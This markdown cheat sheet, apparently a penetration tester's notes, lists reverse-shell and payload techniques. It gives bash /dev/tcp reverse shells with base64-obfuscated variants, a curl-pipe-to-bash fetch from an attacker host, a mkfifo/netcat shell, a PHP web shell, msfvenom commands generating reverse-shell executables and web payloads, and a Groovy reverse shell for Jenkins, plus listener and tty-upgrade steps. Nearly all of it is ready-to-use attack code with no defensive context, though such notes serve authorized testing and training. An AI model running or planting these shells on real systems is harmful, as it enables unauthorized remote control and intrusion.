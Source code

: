 # Shell

## Reverse shell

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [revshells](https://www.revshells.com/)

```
#!/bin/bash
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```
```
curl http://<lhost>/shell.sh|bash
```
```
echo -n "bash -i >& /dev/tcp/<lhost>/<lport> 0>&1" | base64
echo <base64-shell> | base64 -d | bash
{echo,<base64-shell>}|{base64,-d}|bash
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <lhost> <lport> >/tmp/f
```
```
<?php system($_REQUEST["<cmd>"]); ?>
```

Listen for reverse shell with netcat:
```
nc -nvlp <port>
```

### Msfvenom
```
msfvenom -l payloads

msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f war > shell.war
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell.elf
```

### Groovy (for Jenkins)
```java
String host="<lhost>";
int port=9001;
String cmd="whoami";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Interactive shell

### Linux

1. ``python3 -c 'import pty; pty.spawn("/bin/bash")'``
2. ``CTRL+Z``
3. ``stty raw -echo && fg``

### Windows

``rlwrap nc -nvlp <port>``

